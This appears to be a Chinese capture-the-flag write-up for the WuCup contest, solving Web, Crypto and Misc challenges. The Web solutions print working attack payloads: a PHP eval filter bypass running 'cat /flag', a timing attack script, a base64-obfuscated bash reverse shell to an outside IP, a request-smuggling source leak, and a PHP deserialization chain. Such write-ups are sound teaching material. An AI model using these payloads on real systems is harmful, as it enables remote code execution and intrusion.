

## Web

### Sign

**题目介绍:** POST浅浅签个到吧


### HelloHacker

**题目介绍:** 你看到的不一定是真的

源码如下

```
<?php
highlight_file(__FILE__);
error_reporting(0);
include_once 'check.php';
include_once 'ban.php';

$incompetent = $_POST['incompetent'];
$WuCup = $_POST['WuCup'];

if ($incompetent !== 'HelloHacker') {
    die('Come invade!');
}

$required_chars = ['p', 'e', 'v', 'a', 'n', 'x', 'r', 'o', 'z'];
$is_valid = true;

if (!checkRequiredChars($WuCup, $required_chars)) {
    $is_valid = false;
}

if ($is_valid) {

    $prohibited_file = 'prohibited.txt';
    if (file_exists($prohibited_file)) {
        $file = fopen($prohibited_file, 'r');
        
while ($line = fgets($file)) {
    $line = rtrim($line, "\r\n");  
    if ($line === '' && strpos($WuCup, ' ') === false) {
      
        continue;
    }
    if (stripos($WuCup, $line) !== false) {
        fclose($file);  
        die('this road is blocked');
    }
}
  fclose($file);  
    }

    eval($WuCup);
} else {
    die('NO！NO！NO！');
}

?>
```

简单分析一下，post的参数中`incompetent`是`HelloHacker`

`WuCup`必须包含数组中的所有字符，并且有一定的排列组合

`prohibited.txt`是可以访问的，将其复制下来

```
import itertools

# 可能的字母
letters = 'pevanxorz'

# 所有可能的排列组合
all_combinations = {''.join(p) for p in itertools.permutations(letters)}

# 从文件中读取现有组合
existing_combinations = set()
with open('prohibited.txt', 'r') as file:
    for line in file:
        existing_combinations.add(line.strip())

# 查找缺失的组合
missing_combinations = all_combinations - existing_combinations

# 输出缺失的组合
print(f'缺失的组合数量: {len(missing_combinations)}')
for combo in missing_combinations:
    print(combo)
```


然后进入命令执行，一些特殊字符在prohibited.txt中被过滤掉了

passthru是可以使用的


```
incompetent=HelloHacker&WuCup=oxzverapn;passthru("$_POST[a]");&a=cat /flag
```

### TimeCage

**题目介绍:** 你知道时间吗？

```
<?php
show_source(__FILE__);
include 'secret.php';
if(isset($_GET['input'])){
    $guess = $_GET['input'];
    $target = random_int(114 , 114 + date('s') * 100000);
    if(intval($guess) === intval($target)){
        echo "The next challenge in ".$key1;
    }
    else{
        echo "Guess harder.";
    }
}
```

这里的随机数范围，只需要等待时间到达0秒，那么target就是114

可以在50多秒的时候用bp发包


进入第二层

```
<?php
show_source(__FILE__);
include 'secret.php';
if(isset($_POST['pass'])){
    $pass = $_POST['pass'];
    if(strlen($pass) != strlen($password)){
        die("Wrong Length!");
    }
    $isMatch = true;
    for($i = 0;$i < strlen($password); $i++){
        if($pass[$i] != $password[$i]){
            $isMatch = false;
            break;
        }
        sleep(1);
    }
    if($isMatch){
        echo "The final challenge in ".$key2;
    }
    else{
        echo "Wrong Pass!";
    }
}
//Only digital characters in the password.
```

就是猜数字，对每一位进行检查，如果正确就会停留一秒，这里可以写脚本也可以自己手注

```
import requests
import time
import random

url="http://challenge.wucup.cn:49820/Trapping2147483647.php"
passwd='56983215'
payload={"pass":passwd}
start=time.time()
req=requests.post(url,data=payload)
end=time.time()
print(req.text)
print(end-start)
```

最终得到的passwd就是56983215



进入第三层

```
 <?php
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    $pattern = '/[\{\}\[\]\(\)&<>`\s\\\\]/';
    if(preg_match($pattern,$cmd)){
        die("Invalid Input!");
    }
    shell_exec($cmd);
}
else{
    show_source(__FILE__);
}
//flag is in /flag 
```


由于这里shell\_exec是无回显的，我使用的方式是bash反弹shell到服务器上

- [HYH的反弹Shell生成器 (hyhforever.top)](https://www.hyhforever.top/revshell/)

```
cmd=echo$IFS$1"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ5LjIzNS4xNjQuMTA0LzEwMCAwPiYx"|base64$IFS$1-d|bash
```


得到flag


### ezPHP

网站扫描扫到了：flag.php、hint.php

参考这篇文章

- [php＜= 7 . 4 . 21 development server源码泄露漏洞复现 - 凪白Kw - 博客园 (cnblogs.com)](https://www.cnblogs.com/Kawakaze777/p/17799235.html)

关掉burp的`Update Content-Length`


```
GET /flag.php HTTP/1.1
Host: challenge.wucup.cn:48919

GET /Kawakaze HTTP/1.1
```

得到flag.php的源码


```
<?php
error_reporting(0);

class a{
    public $OAO;
    public $QAQ;
	public $OVO;
    public function __toString(){
		if(!preg_match('/hello/', OVO)){
			if ($this->OVO === "hello") {
				return $this->OAO->QAQ;
			}	
		}
    }
	public function __invoke(){
		return $this->OVO;
	}
}

class b{
    public $pap;
	public $vqv;
    public function __get($key){
        $functioin = $this->pap;
        return $functioin();
    }
	public function __toString(){
		return $this->vqv;
	}
}
class c{
    public $OOO;
    public function __invoke(){
		@$_ = $this->OOO;
		$___ = $_GET;
		var_dump($___);
		if (isset($___['h_in.t'])) {
			unset($___['h_in.t']);
		}
		var_dump($___);
		echo @call_user_func($_, ...$___); 
    }
}
class d{
    public $UUU;
    public $uuu;
    public function __wakeup(){
		echo $this->UUU;
    }
	public function __destruct(){
		$this->UUU;
}
}
if(isset($_GET['h_in.t'])){
	unserialize($_GET['h_in.t']);
}
?> 
```

简单分析一下

```
d->__wakeup
a->__toString
b->__get
c->__invoke
```

h\_in.t用中括号绕过

在phpinfo里面可以看到几乎所有的命令执行函数都被禁止了


可以使用file\_get\_contents函数绕过，直接打印内容

```
<?php
class a
{
    public $OAO;
    public $QAQ;
    public $OVO="hello";
}

class b
{
    public $pap;
    public $vqv;
}

class c
{
    public $OOO="file_get_contents";
}

class d
{
    public $UUU;
    public $uuu;
}
$d=new d();
$a=new a();
$b=new b();
$d->UUU=$a;
$a->OAO=$b;
$c=new c();
$b->pap=$c;
echo serialize($d);
#O:1:"d":2:{s:3:"UUU";O:1:"a":3:{s:3:"OAO";O:1:"b":2:{s:3:"pap";O:1:"c":1:{s:3:"OOO";s:17:"file_get_contents";}s:3:"vqv";N;}s:3:"QAQ";N;s:3:"OVO";s:5:"hello";}s:3:"uuu";N;}
```

拿到flag


## Crypto

### Easy

把两个代码扔给AI，分析后给出脚本

```
def rc4(key, data):
    S = list(range(256))
    key_length = len(key)
    j = 0

    # Key Scheduling Algorithm (KSA)
    for i in range(256):
        j = (j + S[i] + ord(key[i % key_length])) % 256
        S[i], S[j] = S[j], S[i]

    # Pseudo-Random Generation Algorithm (PRGA)
    i = 0
    j = 0
    output = []

    for m in range(len(data)):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        output.append(data[m] ^ S[(S[i] + S[j]) % 256])

    return bytes(output)

# Given key and hex-encoded flag
key = "hello world"
hex_flag = "d8d2963e0d8ab8533d2a7fe296c5292339246eba0d292d5752578359322c3a77892dfa7261b84f"

# Convert hex string to byte array
flag_bytes = bytes.fromhex(hex_flag)

# Decrypt the flag
decrypted_flag = rc4(key, flag_bytes)

print("Decrypted flag:", decrypted_flag.decode())
```


## Misc

### Sign

Cyberchef直接解密


### 旋转木马

flag1和flag2都非常大，不好直接打开


读取前1000个字符尝试解密


似乎像是base64嵌套解密

尝试把flag1和flag2连接起来进行解密

每次解密后都写入flag.txt


最后得到的数字拿去cyberchef解密


### 太极


从第三个点中可以发现

```
tai ji sheng liang yi
太在第一位取t
极在第二位取i
生在第三位取e
两在第四位取n
仪在第五位取i，但是第四点中看到是取y

太极生两仪-两仪生四象-四象生八卦-八卦定吉凶-吉凶生大业
对应得到下面的flag
WuCup{tieny-lieig-sieau-bunig-jieay}
```
